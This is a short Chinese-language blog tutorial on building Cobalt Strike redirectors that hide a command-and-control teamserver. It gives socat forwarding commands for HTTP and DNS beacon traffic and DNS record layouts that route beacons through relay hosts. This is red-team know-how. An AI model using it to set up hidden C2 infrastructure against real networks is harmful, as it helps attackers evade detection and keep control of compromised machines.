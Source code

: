 ```yaml
---
title: "Cobalt Strike 重定向器"
date: 2019-07-06T00:00:00+08:00
draft: false
tags: ["cobalt strike"]
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


cobalt strike 通过重定向器来隐藏 c2 服务器.

本质其实就是用其它机器作为中转来连接 teamserver

以下提供两种方式, 端口转发工具不仅限于 socat

<!--more-->

## http beacon

在重定向器中执行命令

```
socat TCP4-LISTEN:8080,fork TCP4:[team server]:8080
```

添加 beacon

![redirector http beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_http_beacon_1.jpg)

添加重定向器的 IP 或域名地址, 如果有多个重定向器, 将他们用逗号分隔.

![redirector http beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_http_beacon_2.jpg)

## dns beacon

配置不同的 A 记录指向重定向器的 IP

之后配置 NS 记录指向重定向器所在域名.

```
r1         A   192.168.1.100
r2         A   192.168.1.101
r3         A   192.168.1.102
profile    NS  r1.exp10it.cn
games      NS  r2.exp10it.cn
pictures   NS  r3.exp10it.cn
```

在重定向器中执行命令, 如果使用 `windows/beacon_dns/reverse_dns_txt` 则仅须转发 53 端口.

```
socat UDP4-LISTEN:53,fork UDP4:[team server]:53
socat TCP4-LISTEN:8080,fork TCP4:[team server]:8080
```

添加 beacon

![redirector dns beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_dns_beacon_1.jpg)

添加重定向器的 NS 域名, 如果有多个重定向器, 将他们用逗号分隔.

![redirector dns beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_dns_beacon_2.jpg)